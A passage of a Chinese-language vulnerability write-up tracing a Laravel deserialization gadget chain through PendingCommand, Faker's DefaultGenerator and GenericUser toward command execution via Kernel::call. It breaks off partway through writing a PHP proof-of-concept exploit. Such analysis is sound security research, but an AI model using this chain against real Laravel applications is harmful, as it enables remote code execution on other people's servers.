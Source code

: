 ```
    return $mock;
}
```

又实现了一次对象模拟,我们的目的还是为了走完这段代码,继续往下看,进入foreach

里面的`$this->test->expectedOutput`这里的`$this->test`可控,去调用任意类的expectedOutput属性,或者去调用`__get()`魔术方法,随便选取一个可用的get方法就行,这里可以用`DefaultGenerator.php`类或者`Illuminate\Auth\GenericUser`类,这个就很多了,只要找到个可用的就行

`DefaultGenerator.php`

![image-20211123224515791](images/4.png)

`GenericUser.php`

![image-20211123224547000](images/5.png)

随便用一个就行,只是要注意这里是foreach,所以我们要返回一个数组

`$this->default=['T0WN'=>"hacker"]`或者`$this->attributes['expectedOutput']=1`

回到mockConsoleOutput方法，也进入了应该foreach循环

![image-20211125185821156](images/6.png)

这里的绕过方法和刚才一样去调用get方法,为了一次性控制,我就采用DefaultGenerator.php的get方法,然后走完这段代码回到run方法

但是这里的`$this->app`需要赋值为一个类,不然会报错

![image-20211125185858443](images/7.png)

在注释中说了这里的是应该为`\Illuminate\Foundation\Application`类

接下来就是产生漏洞的关键代码

```
$exitCode = $this->app[Kernel::class]->call($this->command, $this->parameters);
```

`Kernel::class`是完全限定名称，返回的是一个类的完整的带上命名空间的类名

`Kernel::class`在这里是一个固定值`Illuminate\Contracts\Console\Kernel`,去调用`$this->app[Kernel::class]`里面的call函数

这段代码有点晦涩,先写一个poc试试,然后再来单点调试

```
<?php

namespace Illuminate\Foundation\Testing {
    class PendingCommand
    {
        protected $command;
        protected $parameters;
        public $test;
        protected $app;
        public function __construct($test, $app, $command, $parameters)
        {
            $this->app = $app;
            $this->test = $test;
            $this->command = $command;
            $this->parameters = $parameters;
        }
    }
}

namespace Faker {
    class DefaultGenerator
    {
        protected $default;
```
